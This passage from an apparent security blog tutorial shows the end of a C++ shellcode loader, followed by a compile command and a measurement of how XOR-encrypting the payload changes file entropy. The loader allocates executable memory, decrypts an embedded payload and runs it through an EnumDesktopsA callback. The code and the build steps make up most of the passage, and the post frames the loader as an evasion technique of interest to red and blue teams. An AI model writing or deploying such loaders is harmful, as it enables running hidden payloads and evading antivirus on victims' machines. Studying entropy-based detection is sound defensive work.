 ```cpp
    j++;
  }
}

int main(int argc, char* argv[]) {
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

  // decrypt (deXOR) the payload
  XOR((char *) my_payload, sizeof(my_payload), my_secret_key, sizeof(my_secret_key));

  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

### demo 3

Let's go to see in action. Compile our new "malware":      

```bash
x86_64-w64-mingw32-g++ -O2 hack2.cpp -o hack2.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![shannon](/assets/images/79/2022-11-07_06-53.png){:class="img-responsive"}     

and calculate entropy:    

```bash
python3 entropy.py -f ./hack2.exe
```

![shannon](/assets/images/79/2022-11-07_06-57.png){:class="img-responsive"}     

As you can see, in this case, Shannon entropy is increased from `5.95` to `6.02`. Perfect! =^..^=   

### conclusion

As you can see, sometimes entropy can help predict whether a file is malicious or not. It is used in many malware analysis programs.      

I hope this post will be helpful for blue teamers and red teamers for better understanding theirs "cat =^..^= and mouse <:3 )~~~" game (or war?).     

> This is a practical case for educational purposes only.      

[XOR cipher](https://en.wikipedia.org/wiki/XOR_cipher)     
[AES](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard)        
[AV engines evasion: part 1](/tutorial/2021/09/04/simple-malware-av-evasion.html)     
[Shannon entropy](https://en.wikipedia.org/wiki/Entropy_(information_theory))     
[source code in github](https://github.com/cocomelonc/2022-11-05-malware-analysis-6)      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
